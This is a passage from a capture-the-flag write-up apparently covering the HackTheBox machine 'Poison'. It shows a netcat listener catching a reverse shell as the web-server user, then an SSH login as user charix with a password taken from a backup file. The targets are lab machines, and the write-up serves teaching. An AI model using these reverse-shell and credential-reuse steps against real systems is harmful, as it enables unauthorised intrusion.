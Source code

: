 ```

root@kali# nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.84] 19226
sh: can't access tty; job control turned off
$ pwd
/usr/local/www/apache24/data
$ id
uid=80(www) gid=80(www) groups=80(www)

```

## SSH as Charix

At this point we have a password from `pwdbackup.txt`. We also know from the `/etc/passwd` that there is a user named charix. And the string “charix” is in the password. So let’s try this password as an ssh password for a user charix. It works:

```

root@kali# ssh charix@10.10.10.84
Password for charix@Poison:
Last login: Wed Apr  4 19:42:41 2018 from 10.10.15.237
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
Need to see your routing table? Type "netstat -rn". The entry with the G
flag is your gateway.
                -- Dru <genesis@istar.ca>
charix@Poison:~ %

```

From here we can grab user flag:
